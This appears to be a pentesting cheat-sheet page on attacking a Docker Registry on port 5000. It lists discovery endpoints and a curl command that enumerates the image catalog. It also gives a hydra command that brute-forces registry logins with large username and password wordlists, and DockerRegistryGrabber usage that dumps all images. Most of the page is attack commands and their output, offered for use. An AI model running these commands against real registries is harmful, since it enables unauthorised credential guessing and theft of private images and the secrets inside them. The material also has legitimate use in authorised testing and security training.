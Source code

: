 ```yaml
---
title: Port 5000/Docker Registry
description: Pentesting-Ports
---
```

### Introduction
<Callout>A Docker registry is a repository for Docker images. Docker images are essentially snapshots of a Docker container, which is a lightweight, standalone, executable package that includes everything needed to run a piece of software, including the code, runtime, libraries, and dependencies.
A Docker registry stores these images, allowing users to push and pull images to and from it. This enables teams to share and distribute their Docker images easily </Callout>
#### Table of Contents

- [Introduction](#introduction)
- [Default Port: 5000](#default-port-5000)
- [Pentesting Docker Registry](#pentesting-docker-registry)
  - [Discover](#discover)
  - [Enumeration](#enumeration)
  - [Authentication](#authentication)
  - [BruteForce Docker Registry](#bruteforce-docker-registry)
  - [DockerRegistryGrabber](#dockerregistrygrabber)

#### 
```java
Default port: 5000

PORT    STATE SERVICE  VERSION
5000/tcp open  http    Docker Registry (API: 2.0)
```
#### Pentesting Docker Registry

#### Discover 
```java
/v2/
/v2/_catalog
```
#### Enumeration 
```java
curl -s http://IP:5000/v2/_catalog
```
#### Authentication
Docker registry may also be configured to require authentication:
```python
curl -k https://192.25.197.3:5000/v2/_catalog
#If Authentication required
{"errors":[{"code":"UNAUTHORIZED","message":"authentication required","detail":[{"Type":"registry","Class":"","Name":"catalog","Action":"*"}]}]}
#If no authentication required
{"repositories":["alpine","ubuntu"]}
```
#### BruteForce Docker Registry
```python
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt IP -s 5000 https-get /v2/
```
#### DockerRegistryGrabber
With access to the docker registry with this tool https://github.com/Syzik/DockerRegistryGrabber you can dump all files from the registry.
```python
usage: drg.py [-h] [-p port] [-U USERNAME] [-P PASSWORD] [-A header]
              [--list | --dump_all | --dump DOCKERNAME]
              url
drg.py: error: the following arguments are required: url
```
```python
python3 drg.py https://IP-URL -U 'USERNAME' -P 'PASSWORD' --dump_all
```